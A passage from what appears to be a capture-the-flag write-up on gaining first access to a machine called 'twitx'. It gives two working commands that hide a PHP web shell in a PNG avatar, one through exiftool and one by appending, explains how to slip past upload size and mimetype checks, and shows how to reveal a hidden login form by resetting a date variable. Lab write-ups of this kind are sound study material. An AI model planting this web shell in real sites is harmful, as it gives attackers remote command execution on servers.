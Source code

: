 To get the first access, we first need to prepare an image for our avatar with a web shell, it is important that this image is smaller than 150 pixels so that when uploading it is not transformed, which would cause the shell included in the image to be lost or corrupted.

It is also important that the image is in PNG format, and it is not enough to just change the extension; the mimetype is also checked, so it's better to use a real image.

Creating an image with an embedded PHP web shell, to prevent the image from being affected, we can include it, for example, as a comment in the image. I prefer this method as the image is not altered.

```
$ exiftool -comment='<?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; }?>' avatar.png
```

Another way is to include it directly in the image, but only include it once.

```
$ echo '<?php if(isset($_REQUEST["cmd"])){  echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; }?>' >> avatar.png
```

We register with a user using the created image as the user’s avatar, and we note the password.

Now we need to make the site believe that the launch time has arrived, we can do this in different ways. By changing the date on our computer, we can also de-obfuscate the code and end up seeing the login form and what the endpoint/URL POST is where credentials are sent, or simply by modifying the dateFinish variable we found.

To modify this variable, we open the browser console by pressing the F12 key and change the launch date to the current date by entering:

```
dateFinish = new Date();
```

![img_p6_2](../../assets/images/twitx/img_p6_2.png)

Doing this will show the Log-in link to log in with the created user.

![img_p7_1](../../assets/images/twitx/img_p7_1.png)

